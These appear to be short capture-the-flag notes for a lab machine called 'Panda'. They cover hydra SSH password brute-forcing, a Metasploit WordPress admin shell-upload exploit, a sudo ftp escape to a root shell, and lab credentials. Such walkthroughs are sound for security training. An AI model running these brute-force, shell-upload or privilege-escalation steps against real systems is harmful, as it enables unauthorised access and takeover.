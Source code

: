 Panda

`shifu:batman` (`hydra -l shifu -P /usr/share/wordlists/rockyou.txt ssh://IP`)
SSH in + CHANGE PASSWORD

`sudo -l /usr/bin/ftp`
`!/bin/bash`

Alternate way:
on your machine edit /etc/hosts to add panda as panda.thm
```
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set USERNAME po
msf exploit(wp_admin_shell_upload) > set PASSWORD password1
msf exploit(wp_admin_shell_upload) > set targeturi /wordpress
msf exploit(wp_admin_shell_upload) > exploit
```

`cd /home` to stop the errors

`python -c 'import pty; pty.spawn("/bin/sh")'`

`sudo -l /usr/bin/ftp`
`!/bin/bash`

Alternate way:
`http://IP/06d63d6798d9b6c2f987f045b12031d6/index.php` (idk how you are supposed to find this; I only know this from looking around the box after exploiting using other methods)


SUID exploits to remove:
- find